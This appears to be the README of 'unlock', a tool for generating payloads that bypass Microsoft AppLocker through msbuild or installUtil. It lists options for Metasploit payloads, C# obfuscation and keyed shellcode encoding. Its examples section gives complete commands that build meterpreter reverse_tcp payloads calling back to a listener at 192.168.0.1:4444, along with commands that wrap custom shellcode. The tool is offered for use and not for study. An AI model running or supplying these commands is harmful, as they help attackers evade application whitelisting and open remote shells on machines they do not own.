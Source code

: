 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV] [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]  [--method METHOD] [--enaobf] [--encshell ENCSHELL] [--custom CUSTOM] [--x64]

## Arguments:
--output FILENAME   Output file name without extension
--framework FWV      Framework NET version
--payload PAYLOAD    Payload in MSF syntax
--lhost LHOST        Local host for reverse shell
--lport LPORT        Local port for reverse shell
--method METHOD      Evasion method: msbuild or installUtil
--enaobf             Enable CS code obfuscation
--encshell ENCSHELL  Encode shell with: yyyymmdd, yyyymm, hostname, or domain
--enctext TEXT       Text to xorencode payload with, used with hostname or domain
--custom CUSTOM      Custom binary payload (don't use with --payload/--lhost/--lport)
--x64                set if your custom payload is x64

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild
- python unlock.py --framework 4.0 --custom shellcode.bin --x64
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell yyyymm
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell hostname --enctext SECRETARY
- python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell domain --enctext CONTOSO

## Notes
- everything but msbuild on framework 4.0 is untested
